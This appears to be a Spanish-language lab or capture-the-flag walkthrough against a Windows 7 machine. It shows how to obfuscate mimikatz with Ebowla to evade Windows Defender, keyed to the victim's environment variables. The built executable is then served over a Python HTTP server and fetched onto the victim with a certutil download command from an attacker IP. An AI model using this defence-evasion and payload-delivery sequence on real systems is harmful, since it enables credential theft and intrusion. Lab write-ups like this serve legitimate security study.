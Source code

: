 Localizamos donde esta mimikatz.exe en nuestro equipo y nos lo copiamos al directorio actual de trabajo.

```python
cp /usr/share/mimikatz/x64/mimikatz.exe . 
```

Como la maquina es Windows 7 y tiene el Defender activado vamos a usar #Persistence_Windows_Defender_Evasion_Playing_with_Ebowla 

Nos clonamos Ebowla con git:
```python
git clone https://github.com/Genetic-Malware/Ebowla.git
```
Vamos a la carpeta que se nos ha creado y modificamos el genetic.conf que tenemos para añadir los campos que son necesarios.


![Desktop View](/assets/img/Blue/Pasted image 20221102175646.png){: width="972" height="589" }
Lo importante esta en las variables de entorno tenemos que poner las correctas que podemos sacar asi desde el equipo windows victima:
```python
echo %username%
echo %computername%
echo %Number_of_processors%
echo %processor_identifier%
echo %path%
```


![Desktop View](/assets/img/Blue/Pasted image 20221102180122.png){: width="972" height="589" }
Entonces ya podemos ejecutar el comando de Ebowla:
```python
python2 ebowla.py mimikatz.exe genetic.config 
```

Si surge algún error se puede solucionar con:
```python
pip install configobj
pip install pycrypto
pip install pyparsing 
```
Nos movemos a output/ y ahi vemos nuestro ejecutable creado.
Volvemos a la carpetra anterior para ejecutar el build que corresponda a nuestro lenguaje y con este comando tendremos ya el ejecutable:
```python
./build_x64_go.sh output/go_symmetric_mimikatz.exe.go final_mimi.exe
```

 Y ya tenemos en la carpeta output el ejecutable.
 Ahora tenemos que pasar ese archivo ejecutable a la maquina victima, tenemos varias opciones. L amas sencilla es hacer un server con python.
 ```python
 python3 -m http.server 4567
```

Y desde la maquina victima windows ponemos el siguiente comando:
```python
certutil.exe -f -urlcache -split http://10.10.14.49:4567/final_mimi.exe
```
Una vez hecho esto al hacer `dir` podemos ver como ya esta nuestro ejecutable en el ordenador de la victima.
